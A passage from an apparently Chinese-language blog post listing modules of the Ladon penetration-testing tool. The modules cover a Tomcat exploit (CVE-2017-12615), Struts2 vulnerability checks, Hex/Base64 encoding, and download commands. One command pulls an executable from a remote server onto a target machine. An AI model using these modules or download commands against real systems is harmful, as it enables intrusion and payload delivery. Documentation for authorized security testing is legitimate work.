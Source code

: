 | 7 | TomcatExp | Tomcat漏洞利用(CVE-2017-12615) |

| 8 | Struts2Poc | Struts2漏洞检测(S2-005/S2-009/S2-013/S2-016/S2-019/S2-032/DevMode) |



![](https://img-blog.csdnimg.cn/20200524175418935.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



0x005 加密解密

----------



例子: Ladon 字符串 EnHex



例子: Ladon EnHex (批量str.txt)



| ID | 模块名称 | 功能说明 |

| --- | --- | --- |

| 1 | EnHex | 批量Hex密码加密 |

| 2 | DeHex | 批量Hex密码解密 |

| 3 | EnBase64 | 批量Base64密码加密 |

| 4 | DeBase64 | 批量Base64密码解密 |



0x006 下载功能

----------



下载功能主要用于内网文件传输或者将VPS文件下载至目标机器



| ID | 模块名称 | 功能说明 | 用法 |

| --- | --- | --- | --- |

| 1 | HttpDownLoad | HTTP下载 | Ladon HttpDownLoad [https://k8gege.org/test.exe](https://k8gege.org/test.exe "https://k8gege.org/test.exe") |

| 2 | FtpDownLoad | Ftp下载 | Ladon FtpDownLoad 127.0.0.1:21 admin admin test.exe |



0x007 网络嗅探

----------

